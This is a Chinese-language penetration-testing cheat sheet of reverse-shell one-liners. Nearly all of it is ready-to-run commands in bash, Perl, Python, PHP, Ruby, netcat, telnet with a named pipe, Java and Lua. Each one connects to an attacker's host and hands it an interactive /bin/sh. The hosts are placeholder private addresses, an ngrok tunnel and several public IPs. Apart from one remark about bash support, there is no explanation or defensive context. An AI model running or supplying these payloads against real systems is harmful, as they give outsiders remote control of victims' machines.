 # 渗透过程中的端口反弹

反弹

	反弹的各种姿势。

-------------------
### bash版本：
``` bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
注意这个是由解析shell的bash完成，所以某些情况下不支持
###perl版本:
```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
###python版本:
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("0.tcp.ngrok.io",10036));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
###php版本：
```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
###ruby版本：
```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
###nc版本：
```bash
nc -e /bin/sh 223.8.200.234 1234
```
###nc不使用-e：
```bash
mknod /tmp/backpipe p
/bin/sh 0</tmp/backpipe | nc attackerip listenport 1>/tmp/backpipe
```
###mknod:
```bash
mknod backpipe p && telnet 173.214.173.151 8080 0backpipe
```
###java版本：
```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/202.103.243.122/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
###lua版本：
```bash
lua -e "require('socket');require('os');t=socket.tcp();t:connect('202.103.243.122','1234');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```